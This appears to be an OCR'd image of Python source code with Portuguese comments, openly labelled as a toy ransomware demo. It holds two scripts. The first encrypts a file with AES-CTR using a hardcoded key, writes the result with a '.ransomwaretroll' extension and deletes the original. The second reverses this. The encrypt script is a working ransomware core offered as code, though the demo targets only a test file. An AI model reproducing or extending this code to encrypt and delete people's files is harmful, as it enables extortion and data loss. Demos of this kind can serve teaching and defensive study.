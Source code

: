 # Script 1: Criptografar Arquivo
# Este script criptografa um arquivo e salva o resultado com uma extensão modificada.

import os
import pyaes

def encrypt_file(input_file, encryption_key):
    """
    Criptografa um arquivo usando AES no modo CTR.
    
    :param input_file: Nome do arquivo a ser criptografado
    :param encryption_key: Chave de criptografia
    """
    try:
        # Abrir e ler o arquivo original
        with open(input_file, 'rb') as file:
            file_data = file.read()

        # Inicializar criptografia
        aes = pyaes.AESModeOfOperationCTR(encryption_key)
        encrypted_data = aes.encrypt(file_data)

        # Criar o novo arquivo criptografado
        encrypted_file = f"{input_file}.ransomwaretroll"
        with open(encrypted_file, 'wb') as file:
            file.write(encrypted_data)

        # Remover o arquivo original
        os.remove(input_file)

        print(f"Arquivo '{input_file}' criptografado com sucesso como '{encrypted_file}'.")

    except FileNotFoundError:
        print(f"Erro: Arquivo '{input_file}' não encontrado.")
    except Exception as e:
        print(f"Ocorreu um erro: {e}")

# Parâmetros
input_file = 'teste.txt'
encryption_key = b'testeransomwares'  # Deve ter 16, 24 ou 32 bytes

# Executar criptografia
encrypt_file(input_file, encryption_key)

Descriptografar Arquivo
Este script descriptografa um arquivo previamente criptografado.

import os
import pyaes

def decrypt_file(encrypted_file, output_file, decryption_key):
    """
    Descriptografa um arquivo criptografado usando AES no modo CTR.
    
    :param encrypted_file: Nome do arquivo criptografado
    :param output_file: Nome do arquivo de saída (descriptografado)
    :param decryption_key: Chave de descriptografia
    """
    try:
        # Abrir e ler o arquivo criptografado
        with open(encrypted_file, 'rb') as file:
            encrypted_data = file.read()

        # Inicializar descriptografia
        aes = pyaes.AESModeOfOperationCTR(decryption_key)
        decrypted_data = aes.decrypt(encrypted_data)

        # Salvar o arquivo descriptografado
        with open(output_file, 'wb') as file:
            file.write(decrypted_data)

        # Remover o arquivo criptografado
        os.remove(encrypted_file)

        print(f"Arquivo '{encrypted_file}' descriptografado com sucesso como '{output_file}'.")

    except FileNotFoundError:
        print(f"Erro: Arquivo '{encrypted_file}' não encontrado.")
    except Exception as e:
        print(f"Ocorreu um erro: {e}")

# Parâmetros
encrypted_file = 'teste.txt.ransomwaretroll'
output_file = 'teste.txt'
decryption_key = b'testeransomwares'  # Deve ter 16, 24 ou 32 bytes

# Executar descriptografia
decrypt_file(encrypted_file, output_file, decryption_key)


